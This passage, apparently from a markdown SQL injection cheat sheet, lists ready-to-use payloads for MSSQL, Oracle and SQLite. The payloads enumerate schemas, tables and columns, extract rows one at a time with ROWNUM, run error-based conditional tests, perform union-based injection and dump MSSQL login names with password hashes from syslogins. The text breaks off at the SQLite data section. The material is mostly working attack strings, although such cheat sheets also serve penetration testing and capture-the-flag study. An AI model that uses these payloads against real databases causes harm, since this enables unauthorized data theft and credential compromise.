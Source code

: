 #### Dump Table name
- One line 
    - `SELECT quotename(name) FROM {DB_NAME}..sysobjects where xtype='U' FOR XML PATH('')`
- Select One Data
    - `SELECT TOP 1 name,NULL FROM music..sysobjects where xtype='U'`
        - `and name not in ('Table_1','Table_2')`
#### Dump column name
- One line
    - `SELECT quotename(name) FROM {DB_NAME}..syscolumns WHERE id=(SELECT id FROM {DB_NAME}..sysobjects WHERE name='{TABLE_NAME}') FOR XML PATH('')))) -- -`
- Select One Data
    - `SELECT column_name FROM information_schema.columns WHERE table_catalog='{DB NAME}' AND table_name='{TABLE_NAME}'`
#### DB Admin
- `select concat(user,',',password),NULL from master.dbo.syslogins -- -`
### Oracle Injection
- Concatenation String
    - `'aaa'||'bbb'`
- Sub string
    - `SUBSTR('ABC',1,1)`
        - Return `A`
    - `SUBSTR('ABC',2,1)`
        - Return `B`
- Union based
    - Column counts, Data type must be same (`NULL`)
    - Select must have `FROM`, if no item can FROM, use `dual`
    - eg. `' UNION SELECT NULL,NULL,3 FROM dual --`
- Current Username
    - `SELECT USER FROM dual`
- Dump DB (Schema) Names
    - `SELECT DISTINCT OWNER FROM ALL_TABLES` (return multiple rows)
    - Common (Normal DB) : `APEX_040200`, `MDSYS`, `SEQUELIZE`, `OUTLN`, `CTXSYS`, `OLAPSYS`, `FLOWS_FILES`, `SYSTEM`, `DVSYS`, `AUDSYS`, `DBSNMP`, `GSMADMIN_INTERNAL`, `OJVMSYS`, `ORDSYS`, `APPQOSSYS`, `XDB`, `ORDDATA`, `SYS`, `WMSYS`, `LBACSYS`
        - But data may in `SYSTEM` or other existing DB
- Dump Table Names
    - All : `SELECT OWNER,TABLE_NAME FROM ALL_TABLES`
    - Specific DB: `SELECT TABLE_NAME FROM ALL_TABLES WHERE OWNER='{DB_NAME}'`
- Dump Column Names
    - `SELECT COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}'`
- Select data
    - `SELECT {Col1},{Col2} FROM {Table}`
- Select One line using ROWNUM (Doesn't support limit)
    - eg. `SELECT NULL,COLUMN_NAME,3 FROM (SELECT ROWNUM no, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='WEB_ADMINS') where no=1 -- ` 
        - no=1 2 3 ...
- DB Version
    - `select version from V$INSTANCE`
    - `select BANNER from v$version`
- Error Based
    - ` SELECT CASE WHEN ({condition}) THEN NULL ELSE to_char(1/0) END FROM dual `
- Current DB
    - `SELECT SYS.DATABASE_NAME FROM dual`
### SQLite Injection
- Version
    - `sqlite_version()`
- Table
    - `select name from sqlite_master WHERE type='table'`
- Column
    - `select sql from sqlite_master WHERE type='table'`
- Data